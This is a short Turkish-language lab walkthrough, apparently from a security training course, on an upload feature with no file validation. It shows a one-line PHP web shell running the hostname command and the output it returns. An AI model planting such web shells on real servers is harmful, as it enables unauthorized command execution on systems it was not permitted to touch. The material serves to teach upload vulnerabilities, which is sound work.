


# Absent Validation

Dosya yüklemeye izin veren bir web uygulamasını ele alalım:


Seçilen dosya adı, uygulama üzerinde gözüküyor:



Uygulamaya ait Upload özelliği, dosyayı karşıya yüklemek için kullanılır:



Dosya içeriği aşağıda verilmiştir:

```php title="shell.php" linenums="1"
<?php system("hostname"); ?>
```

Uygulamaya ait Download File özelliği, yüklenen PHP kodunu çalıştırmak için kullanılır:

```output title="Output"
ng-954801-fileuploadsabsentverification-brnyi-df695dd68-qgnlv
```
